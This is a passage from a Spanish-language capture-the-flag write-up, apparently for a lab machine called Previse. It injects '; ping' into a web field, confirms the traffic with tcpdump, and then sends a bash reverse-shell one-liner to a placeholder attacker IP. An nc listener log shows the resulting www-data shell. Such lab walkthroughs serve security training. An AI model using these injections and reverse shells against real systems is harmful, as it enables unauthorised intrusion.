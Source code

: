 ![Captura](./Imágenes/previse_9.png)


![Captura](./Imágenes/previse_8.png)

Enviamos un ping a nuestra IP para ver si recibimos traza con *tcpdump*. Usamos el comando `; ping -c 1 IP_ATACANTE`

![Captura](./Imágenes/previse_10.png)

Acción: nos ponemos en escucha con tcpdump para ver si recibimos traza `icmp` 

```bash
tcpdump  -i tun0 icmp -n
```

Resultado: confirmamos que tenemos conexión, ya que recibimos traza `icmp` desde la IP de la máquina víctima

```bash
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
16:16:19.580369 IP 10.10.11.104 > 10.10.16.4: ICMP echo request, id 21619, seq 1, length 64
16:16:19.581649 IP 10.10.16.4 > 10.10.11.104: ICMP echo reply, id 21619, seq 1, length 64
```

Conclusión: ahora podemos enviarnos una Reverse Shell con el típico oneliner de bash

```bash
bash -c "bash -i >& /dev/tcp/IP_ATACANTE/PUERTO 0>&1"
```

**Nota:** es conveniente cuando se envía en html urlencodear los `&`. Se puede hacer con `ctrl+u` seleccionándolo, o poniendo en su lugar `%26`

---

## Explotación de bypass de control de acceso client-side

Si enviamos este oneliner mientras estamos en escucha con `nc` recibiremos acceso a la máquina víctima

```bas
nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.11.104] 59604
bash: cannot set terminal process group (1604): Inappropriate ioctl for device
bash: no job control in this shell
bash-4.4$ whoami
whoami
www-data
bash-4.4$ 
```

Ahora sería cuestión de escalar privilegios para pasar del usuario `www-data` a otro usuario del sistema, y de él a `root`

---